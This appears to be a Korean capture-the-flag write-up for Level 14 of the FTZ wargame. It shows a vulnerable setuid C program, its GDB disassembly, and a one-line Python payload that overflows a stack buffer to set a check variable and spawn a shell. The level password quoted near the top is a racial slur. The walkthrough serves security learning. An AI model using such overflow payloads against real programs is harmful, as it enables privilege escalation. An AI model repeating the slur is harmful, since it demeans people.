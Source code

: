 ```yaml
---
sort: 14
---
```


# Level 14

```note
id : level14

password : what that nigga want?
```

hint를 보면 attackme의 소스코드가 나온다.<br>
attackme에 setuid가 걸려있으니 얘를 조져보자.

```c
#include <stdio.h>
#include <unistd.h>
 
main()
{ int crap;
  int check;
  char buf[20];
  fgets(buf,45,stdin);
  if (check==0xdeadbeef)
   {
     setreuid(3095,3095);
     system("/bin/sh");
   }
}
```
지역변수 check만 조지면 되는 간단한 문제다.<br><br>
GDB를 이용하여 attackme의 main함수를 disassemble했다.

<pre>
(gdb) disas main
Dump of assembler code for function main:
0x08048490 (main+0):	push   %ebp
0x08048491 (main+1):	mov    %esp,%ebp
0x08048493 (main+3):	sub    $0x38,%esp
0x08048496 (main+6):	sub    $0x4,%esp
0x08048499 (main+9):	pushl  0x8049664
0x0804849f (main+15):	push   $0x2d

<b>0x080484a1 (main+17):	lea    0xffffffc8(%ebp),%eax
0x080484a4 (main+20):	push   %eax
0x080484a5 (main+21):	call   0x8048360 (fgets) </b>

0x080484aa (main+26):	add    $0x10,%esp

<b>0x080484ad (main+29):	cmpl   $0xdeadbeef,0xfffffff0(%ebp) </b>

0x080484b4 (main+36):	jne    0x80484db (main+75)
0x080484b6 (main+38):	sub    $0x8,%esp
0x080484b9 (main+41):	push   $0xc17
0x080484be (main+46):	push   $0xc17
0x080484c3 (main+51):	call   0x8048380 (setreuid)
0x080484c8 (main+56):	add    $0x10,%esp
0x080484cb (main+59):	sub    $0xc,%esp
0x080484ce (main+62):	push   $0x8048548
0x080484d3 (main+67):	call   0x8048340 (system)
0x080484d8 (main+72):	add    $0x10,%esp
0x080484db (main+75):	leave  
0x080484dc (main+76):	ret    
0x080484dd (main+77):	lea    0x0(%esi),%esi
</pre>

level13과 거의 같은 문제다. 빠르게 넘어가자.

```bash
# padding 0x28 byte + 0xdeadbeef
[level14@ftz level14]$ (python -c "print('A'*0x28+'\xef\xbe\xad\xde\n')";cat) | ./attackme 
my-pass
```

```tip
## 알게 된 점

buffer overflow
```